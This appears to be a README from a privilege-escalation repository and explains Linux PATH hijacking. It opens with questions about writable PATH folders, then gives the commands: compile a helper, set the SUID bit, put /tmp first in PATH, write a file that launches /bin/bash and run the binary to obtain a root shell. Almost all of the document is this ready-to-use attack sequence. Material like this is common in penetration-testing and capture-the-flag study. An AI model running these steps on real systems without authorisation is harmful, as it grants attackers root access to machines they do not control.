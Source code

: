# PATH

## Example:

### echo $PATH

## Questions before using this privesc vector:

### 1: What folders are located under $PATH?

### 2: Does your current user have write privileges for any of these folders?

### 3: Can you modify $PATH?

### 4: Is there a script/app you can start that will be affected by this vulnerability?

### Example script is at root shells directory in this repository:

## Compilation: 

    gcc path_exp.c -o path -w

### Give SUID bit 

    chmod u+s path

### Find writeable directories

    find / -writeable 2>/dev/null

### Add /tmp to PATH

    export PATH=/tmp:$PATH 

### Go to /tmp directory

    cd /tmp

### Insert bash binary execution command in our example file

    echo "/bin/bash" > example

### Give execute permissions

    chmod 777 example

### Run file

    ./path
